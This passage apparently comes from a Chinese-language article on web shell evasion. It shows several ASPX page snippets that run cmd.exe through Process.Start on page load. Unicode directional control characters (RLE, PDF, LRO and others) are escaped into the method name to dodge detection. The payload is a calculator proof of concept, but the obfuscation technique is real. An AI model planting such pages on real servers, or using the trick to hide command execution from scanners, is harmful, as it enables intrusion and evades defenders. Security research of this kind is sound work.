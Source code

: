 <script runat="server">

public void Page\_load(){

  System.Diagnostics.Pro\\u202Acess.Start("cmd.exe","/c calc");

    }

</script>

4.6 由右到左嵌入
----------

从右到左嵌入符 (RLE)  `U+202B、U+0000202B` 从 Unicode 6.3 开始，不鼓励使用`U+2067`嵌入中的字符会影响外部字符的顺序

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false"

validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>

<script runat="server">

public void Page\_load(){

  System.Diagnostics.Pro\\u202Bcess.Start("cmd.exe","/c calc");

    }

</script>

4.7 定向格式化
---------

Pop Directional Formatting（PDF）符： `U+202C、U+0000202C` 

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false"

validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>

<script runat="server">

public void Page\_load(){

  System.Diagnostics.Pro\\u202Ccess.Start("cmd.exe","/c calc");

    }

</script>

4.8 由左到右覆盖符
-----------

从左到右覆盖符（LRO） `U+202D、U+0000202D`，字符正向显示顺序

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false"

validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>

<script runat="server">

public void Page\_load(){

  System.Diagnostics.Pro\\u202Dcess.Start("cmd.exe","/c calc");

    }
